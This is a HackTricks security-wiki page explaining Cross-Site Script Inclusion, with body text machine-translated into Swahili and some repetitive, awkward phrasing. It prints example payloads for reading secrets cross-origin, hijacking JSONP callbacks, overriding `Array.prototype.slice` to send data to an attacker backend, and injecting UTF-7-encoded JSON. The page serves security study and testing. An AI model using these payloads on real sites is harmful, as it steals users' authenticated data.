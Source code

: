 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** ni udhaifu unaotokana na asili ya lebo ya `script` katika HTML. Tofauti na rasilimali nyingi, ambazo zinategemea **Same-Origin Policy (SOP)**, scripts zinaweza kujumuishwa kutoka maeneo tofauti. Tabia hii inakusudia kuwezesha matumizi ya maktaba na rasilimali nyingine zinazohifadhiwa kwenye seva tofauti lakini pia inaletee hatari ya usalama.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Scripts hazihusishwa na **Same-Origin Policy**, zikiruhusiwa kujumuishwa kati ya maeneo.
- **Data Exposure**: Mshambuliaji anaweza kutumia tabia hii kusoma data iliyopakiwa kupitia lebo ya `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** ni muhimu hasa kwa JavaScript ya dinamik au **JSON with Padding (JSONP)**. Teknolojia hizi mara nyingi hutumia taarifa za "ambient-authority" (kama vidakuzi) kwa ajili ya uthibitishaji. Wakati ombi la script linapotolewa kwa mwenyeji tofauti, akreditif hizi (mfano, vidakuzi) hujumuishwa moja kwa moja katika ombi.
- **Authentication Token Leakage**: Ikiwa mshambuliaji anaweza kumdanganya kivinjari cha mtumiaji kutafuta script kutoka seva wanayodhibiti, wanaweza kuwa na uwezo wa kupata taarifa nyeti zilizomo katika maombi haya.

### Types

1. **Static JavaScript** - Hii inawakilisha aina ya kawaida ya XSSI.
2. **Static JavaScript with Authentication** - Aina hii ni tofauti kwa sababu inahitaji uthibitishaji ili kufikia.
3. **Dynamic JavaScript** - Inahusisha JavaScript inayounda maudhui kwa njia ya dinamik.
4. **Non-JavaScript** - Inarejelea udhaifu ambao hauhusishi JavaScript moja kwa moja.

**Taarifa ifuatayo ni muhtasari wa [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Angalia kwa maelezo zaidi.


### Regular XSSI
Katika mbinu hii, taarifa za faragha zimejumuishwa ndani ya faili ya JavaScript inayopatikana kwa urahisi duniani. Wavamizi wanaweza kubaini faili hizi kwa kutumia mbinu kama kusoma faili, kutafuta maneno, au matumizi ya kawaida ya kawaida. Mara baada ya kupatikana, script inayoshikilia taarifa za faragha inaweza kujumuishwa katika maudhui ya uhalifu, ikiruhusu ufikiaji usioidhinishwa wa data nyeti. Mbinu moja ya mfano ya unyakuzi inaonyeshwa hapa chini:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
Aina hizi za mashambulizi ya XSSI zinahusisha taarifa za siri kuongezwa kwa njia ya kidinamikia kwenye script kama jibu la ombi la mtumiaji. Ugunduzi unaweza kufanywa kwa kutuma maombi yenye na bila kuki na kulinganisha majibu. Ikiwa taarifa zinatofautiana, inaweza kuashiria uwepo wa taarifa za siri. Mchakato huu unaweza kuandaliwa kwa kutumia zana kama [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) nyongeza ya Burp.

Ikiwa data za siri zimehifadhiwa katika variable ya kimataifa, zinaweza kutumika kwa kutumia mbinu zinazofanana na zile zinazotumika katika XSSI ya Kawaida. Hata hivyo, ikiwa data za siri zimejumuishwa katika jibu la JSONP, washambuliaji wanaweza kuiba kazi ya callback ili kupata taarifa hizo. Hii inaweza kufanywa kwa kubadilisha vitu vya kimataifa au kuanzisha kazi itakayotekelezwa na jibu la JSONP, kama inavyoonyeshwa hapa chini:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Kwa mabadiliko ya *prototype tampering* kwa mabadiliko ya mabadiliko yasiyo katika nafasi ya kimataifa, mara nyingine inaweza kutumika. Mbinu hii inatumia muundo wa JavaScript, ambapo tafsiri ya msimbo inahusisha kupita kwenye mnyororo wa prototype ili kupata mali inayoitwa. Kwa kubadilisha kazi fulani, kama vile `Array`'s `slice`, washambuliaji wanaweza kufikia na kuvuja mabadiliko yasiyo ya kimataifa:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Utafiti wa Takeshi Terada unintroduces aina nyingine ya XSSI, ambapo faili za Non-Script, kama CSV, zinavuja cross-origin kwa kuingizwa kama vyanzo katika `script` tag. Matukio ya kihistoria ya XSSI, kama shambulio la Jeremiah Grossman la mwaka 2006 kusoma kitabu kamili cha anwani za Google na uvujaji wa data wa JSON wa Joe Walker wa mwaka 2007, yanaonyesha ukali wa vitisho hivi. Zaidi ya hayo, Gareth Heyes anaelezea toleo la shambulio linalohusisha JSON iliy encoded kwa UTF-7 ili kutoroka muundo wa JSON na kutekeleza scripts, ambayo ni bora katika vivinjari fulani:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
